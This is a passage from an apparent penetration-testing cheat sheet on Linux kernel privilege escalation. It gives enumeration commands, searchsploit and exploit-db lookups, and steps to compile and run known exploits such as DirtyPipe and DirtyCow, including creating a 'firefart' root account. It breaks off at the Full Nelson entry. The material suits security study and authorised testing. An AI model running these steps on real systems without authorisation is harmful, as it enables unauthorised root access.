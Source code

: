 The following exploits are known to work well, search for more exploits with `searchsploit -w linux kernel centos`.

Another way to find a kernel exploit is to get the specific kernel version and linux distro of the machine by doing

```bash
uname -a
cat /etc/issue
cat /etc/*-release
cat /proc/version
lscpu
```

Copy the kernel version and distribution, and search for it in google or in [https://www.exploit-db.com/](https://www.exploit-db.com/).

### CVE-2022-0847 (DirtyPipe)

Linux Privilege Escalation - Linux Kernel 5.8 < 5.16.11

```bash
https://www.exploit-db.com/exploits/50808
```

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

{% embed url="https://www.exploit-db.com/exploits/40839" %}

```c
// Compile with:
gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
"./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
```

```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### CVE-2010-3904 (RDS)

Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

```
https://www.exploit-db.com/exploits/15285/
```

### CVE-2010-4258 (Full Nelson)
